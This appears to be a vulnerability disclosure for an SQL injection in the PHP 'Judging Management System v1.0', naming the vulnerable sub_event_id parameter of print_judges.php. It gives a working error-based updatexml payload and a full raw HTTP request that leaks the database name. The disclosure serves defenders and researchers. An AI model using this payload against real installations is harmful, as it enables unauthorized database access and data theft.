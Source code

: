 # Judging Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/print_judges.php?print_judges.php=&se_name=&sub_event_id=

Vulnerability location: /php-jms/print_judges.php?print_judges.php=&se_name=&sub_event_id=, sub_event_id

dbname =jms_db

[+] Payload: /php-jms/print_judges.php?print_judges.php=&se_name=&sub_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> sub_event_id

​```sql
GET /php-jms/print_judges.php?print_judges.php=&se_name=&sub_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
​```

![image](https://user-images.githubusercontent.com/54017627/206375636-76802b41-9da6-45e0-8c87-2e19e533780f.png)
